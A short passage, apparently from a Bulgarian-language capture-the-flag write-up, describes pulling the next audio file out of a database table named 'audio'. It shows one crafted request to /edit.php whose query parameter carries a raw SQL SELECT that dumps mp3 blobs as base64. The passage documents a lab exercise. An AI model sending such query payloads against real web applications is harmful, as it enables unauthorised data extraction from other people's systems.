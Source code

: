 ![](images/analytics_admin_pass.png)

Можейки да си комуникираме с базата данни, откриваме и къде се намира следващия аудио файл - а именнот в таблица **audio**.
Както можем и да извлечем следващия mp3 файл с подобна заявка но енкодиран в base64 или hex.

```
/edit.php?id=749b17a7-565f-43f5-a3a3-2b90cf6dc7f4&name=id,dd,3d&description=hello&query=SELECT id, CONCAT(TO_BASE64(mp3)) AS file_to_hex FROM audio; 
```